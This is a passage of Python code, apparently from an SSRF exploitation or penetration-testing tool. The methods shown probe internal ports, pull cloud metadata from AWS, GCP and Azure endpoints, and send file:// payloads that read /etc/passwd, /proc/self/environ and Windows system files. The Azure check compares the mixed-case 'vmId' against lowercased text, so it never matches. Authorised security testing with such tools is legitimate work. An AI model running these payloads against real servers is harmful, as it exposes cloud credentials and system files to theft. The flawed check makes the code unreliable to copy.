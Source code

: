 ```python
        threads = []
        for port in self.internal_services.keys():
            thread = threading.Thread(target=scan_port, args=(port,))
            threads.append(thread)
            thread.start()
        
        for thread in threads:
            thread.join()
        
        return results
    
    def test_cloud_metadata(self):
        """Test access to cloud metadata services"""
        print("[+] Testing cloud metadata access")
        results = []
        
        for metadata_url in self.cloud_metadata:
            result = self.test_basic_ssrf(metadata_url)
            
            # Check for successful metadata access
            if result.get('status_code') == 200:
                response_text = result.get('response_text', '').lower()
                
                # AWS metadata indicators
                if 'ami-id' in response_text or 'instance-id' in response_text:
                    results.append({
                        'type': 'AWS Metadata',
                        'url': metadata_url,
                        'severity': 'Critical',
                        'evidence': result['response_text'][:200]
                    })
                
                # GCP metadata indicators
                elif 'project' in response_text and 'zone' in response_text:
                    results.append({
                        'type': 'GCP Metadata',
                        'url': metadata_url,
                        'severity': 'Critical',
                        'evidence': result['response_text'][:200]
                    })
                
                # Azure metadata indicators
                elif 'compute' in response_text and 'vmId' in response_text:
                    results.append({
                        'type': 'Azure Metadata',
                        'url': metadata_url,
                        'severity': 'Critical',
                        'evidence': result['response_text'][:200]
                    })
        
        return results
    
    def test_file_access(self):
        """Test file system access via SSRF"""
        print("[+] Testing file system access")
        file_payloads = [
            'file:///etc/passwd',
            'file:///etc/hosts',
            'file:///proc/version',
            'file:///proc/self/environ',
            'file://C:/Windows/System32/drivers/etc/hosts',
            'file://C:/boot.ini'
        ]
```
